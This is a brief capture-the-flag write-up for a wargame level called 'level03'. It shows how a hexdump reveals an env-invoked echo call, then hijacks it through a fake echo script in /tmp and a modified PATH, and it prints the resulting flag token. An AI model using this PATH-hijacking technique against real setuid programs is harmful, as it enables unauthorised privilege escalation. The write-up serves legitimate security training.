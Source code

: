 hexdump -C level03

We can see

> 000005e0  2f 75 73 72 2f 62 69 6e  2f 65 6e 76 20 65 63 68  |/usr/bin/env ech|
> 000005f0  6f 20 45 78 70 6c 6f 69  74 20 6d 65 00 00 00 00  |o Exploit me....|


We can exploit the echo call by manipulating the PATH env variable as using the env won't treat it as a built-in
See: https://stackoverflow.com/a/8304447

So we can craft a custom `echo` script in `/tmp` like follow

```
#!/bin/bash

echo $(getflag)
```

and add `/tmp` to our PATH env variable
`export PATH=/tmp:$PATH`

We can check it is working if we try `/usr/bin/env echo`
> Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)

Run the script `./level03`

> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
